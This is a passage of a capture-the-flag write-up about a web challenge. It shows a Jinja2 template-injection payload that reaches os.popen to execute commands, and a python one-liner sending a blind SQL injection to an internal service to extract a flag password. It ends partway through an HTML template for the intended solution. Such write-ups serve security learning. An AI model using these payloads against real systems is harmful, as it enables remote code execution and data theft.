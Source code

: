 Popen it

```python
{{lipsum['__globals__']['os']['popen'](config['t'])}}
```

![image](https://user-images.githubusercontent.com/75429369/180790561-1e502da6-0c0d-4469-b1bf-759927a0fec6.png)

![image](https://user-images.githubusercontent.com/75429369/180790589-b0937a51-941a-4be2-b525-1ec708ac0684.png)

Let's find out the IP 

![image](https://user-images.githubusercontent.com/75429369/180790704-9a3ded75-609b-4aae-838f-149dd2d83ffb.png)

So we got all we need, noticed that `requests` module was installed so we just use it to request to `http://172.24.0.8:8080/runquery`

![image](https://user-images.githubusercontent.com/75429369/180791111-0382a5c9-61a5-4108-b43a-75b4cec28c19.png)

```terminal
python3 -c "import requests; r=requests.post('http://172.24.0.8:8080/runquery', json={'username':'\'/**/or/**/(select/**/hex(substr(password,1,1))/**/from/**/users/**/where/**/username=\'flag\')/**/=/**/hex(\'L\')/**/--','password':'no'}); print(r.text)"
```

![image](https://user-images.githubusercontent.com/75429369/180793045-76e205d3-a38d-4ca8-b4f4-7de0fc51c757.png)

Now just write a script for all that :D

# EYANGCH Fan Art Maker (intended solution)

I'm very curious about the actual solution so let's just find out what's the intended solution of this chall. Let's read the code again (I've missed the `views` folder for the hold event :D)

![image](https://user-images.githubusercontent.com/75429369/180924860-ad5d0c06-4def-4d6d-81eb-179e18eec876.png)

```html
<!DOCTYPE HTML>
<html>
    <head>
        <title>EYANGCH Fan Art Maker <3</title>
        <style>
            .bg{
                background-image: url("https://cdn.discordapp.com/avatars/622575440305061910/e0fa5d8c91cc24f83af648736072d330.webp?size=256");
                background-repeat: repeat;
                opacity: 0.3;
                top: 0;
                left: 0;
                right: 0;
                position: absolute;
                z-index: -1; 
                height: 300%; 
            }
            pre code {
                background-color: #eee;
                border: 1px solid #999;
                display: block;
                padding: 10px;
                font-size: 18px;
            }

            textarea {
            	width: 50%;
            	height: 400px;
                font-size: 18px;
```